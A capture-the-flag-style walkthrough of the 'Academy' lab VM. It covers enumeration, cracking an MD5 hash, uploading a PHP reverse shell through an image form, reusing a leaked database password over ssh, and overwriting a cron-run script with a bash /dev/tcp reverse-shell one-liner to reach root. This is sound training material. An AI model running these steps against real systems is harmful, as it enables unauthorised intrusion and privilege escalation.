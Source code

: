 # Academy Walkthrough

## Enumeration
Login to the Academy VM with the credentials `root:tcm`and run `dhclient`. Run it again to confirm that the "file exists".
List out the IP address for this VM with `ip a`
![[Pasted image 20220223163407.png]]
Our nmap scan; remember to `export IP=<ip-address>`:
```bash
nmap -A -p -T4 $IP -oA $IP-academy-scan
```

![[Pasted image 20220223170217.png]]
We see that `ftp`, `ssh`, and an Apache web server that are all open.
Let's see what `ftp` has
![[Pasted image 20220223170920.png]]
`cat note.txt` and we have a password hash:
![[Pasted image 20220223171715.png]]
Using `hashidentifier`, try to find out what type of hash it is.
![[Pasted image 20220223171844.png]]
It tells us that it is an MD5 hash so go out to Google and search how to crack the hash. Search terms should be like: "hashcat crack md5 hash" and open the first link: https://www.4armed.com/blog/hashcat-crack-md5-hashes/
`hashcat` is installed on Kali by default so save the hash like so:
`echo 'cd73502828457d15655bbd7a63fb0bc8' > hashes.txt`
```bash
hashcat -m 0 hashes.txt /usr/share/wordlists/rockyou.txt
```
After running that command, you should see it cracked.![[Pasted image 20220223172239.png]]
We see that the password was "student".
## Directory Busting
Now time to figure out what directories are available to us.
With `dirb` we can try to search through a default list like so:
```bash
dirb http://$IP
```
and also with `ffuf`(not installed by default so `sudo apt install ffuf`) we can "fuzz" for directories (Make sure to replace the IP address with your own target IP):
```bash
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -u http://192.168.122.53/FUZZ
```
We see that the directory "academy" so let's go check it out:
![[Pasted image 20220223174036.png]]
We need a Reg no and the password so go back to the note and copy the reg no from there. Use these credentials: `10201321:student`

We arrive to a "STUDENT CHANGE PASSWORD" tab but what is more intersting is the "/academy/my-profile.php" tab. There a section where we can upload an image. Click on `Browse...` and browse to an image you have (or search for one online). Click on `Update` and the page should refresh. Right click on the image and select `Open Image in New Tab` or `Copy Image Link`. We now know where the images will be saved at: http://IP-ADDRESS/academy/studentphoto/sudoheader.png

Since we know that the app uses PHP to upload the image, we will need a php reverse shell so that we can get code execution on the server. Search on Google for "php reverse shell" and you should find from the first hit on GitHub: https://github.com/pentestmonkey/php-reverse-shell

Copy or download `php-reverse-shell.php` in your directory of choice using `wget` like so. You can grab that link by clicking on the "Raw" button and copying the link. We'll save it as `shell.php` using `-O` shown below:
```bash
wget 'https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php' -O shell.php
```
Using `vim`, `nano`, `mousepad`, or any editor of choice, change `$ip` to your attack box IP. You can check your IP using `ip a` and looking at your `inet` address. You can also leave `$port` alone.

Now on the attack box, run: `nc -lvnp 1234` or whatever port you have saved in the `shell.php` and go back the the "Upload New Photo" section and browse to where you have saved `shell.php`. Upon clicking on `Update`, the page will hang and going back to our listener, we can see that we have a shell. Strangely enough, we can't use `sudo`:
![[Pasted image 20220223182755.png]]
`cd /tmp`: change directory into tmp and start our web server from the home directory on our attack machine like so:
```bash
python3 -m http.server 80
```
Back to our shell, download the file using `wget`:
![[Pasted image 20220223184340.png]]
`chmod +x linpeas.sh` and run with
`./linpeas.sh`
Look for anything in YELLOW/RED or RED, these are going to be important on any pentest. We found something at `/home/grimmie/backup.sh`:
![[Pasted image 20220223184726.png]]
Linpeas also found this, which might be interesting later on:
![[Pasted image 20220223185002.png]]
`$mysql_password = "My_V3ryS3cur3_P4ss";` 
`cat /var/www/html/academy/includes/config.php` output:
![[Pasted image 20220223190133.png]]
`grimmie`: has administrator access??
![[Pasted image 20220223190354.png]]

Let's try to login with `ssh` using grimmie's password
```bash
ssh grimmie@192.168.122.53
```
enter "yes" to accept and enter the password "My_V3ryS3cur3_P4ss"
![[Pasted image 20220223190912.png]]
Trying out some commands don't reveal anything useful
![[Pasted image 20220223191627.png]]
So go out to Google and search for "pspy" where the first link will be a GitHub repo: https://github.com/DominicBreuker/pspy
We want the "64 bit, static version" called `pspy64` so click on it to download and move it to our home or whatever folder we are using to transfer to Academy VM (`transfers`folder in our case).
![[Pasted image 20220223192227.png]]
`backup.sh` is running every minute as can be shown after executing `./pspy64`, you just have to wait to see it.
![[Pasted image 20220223192448.png]]
Go back to where `backup.sh` is located in `/home/grimmie` and search on Google for
"bash reverse shell one liner". The first link is what we are looking for: https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
Copy/paste the first command we see 
`bash -i >& /dev/tcp/10.0.0.1/8080 0>&1` we will modify it a bit for our use case by replacing the `10.0.0.1` part to our attack IP and the port part to something like `8081`.
Start a reverse shell listener on our attack box:
```bash
nc -lvnp 8081
```
and on the ssh shell, we will need to modify `backup.sh` like so:
![[Pasted image 20220223195419.png]]
```bash
#!/bin/bash

bash -i >& /dev/tcp/192.168.122.31/8081 0>&1
```
Wait a minute while the `backup.sh` executes and back on the listener, we have our flag.
![[Pasted image 20220223195806.png]]
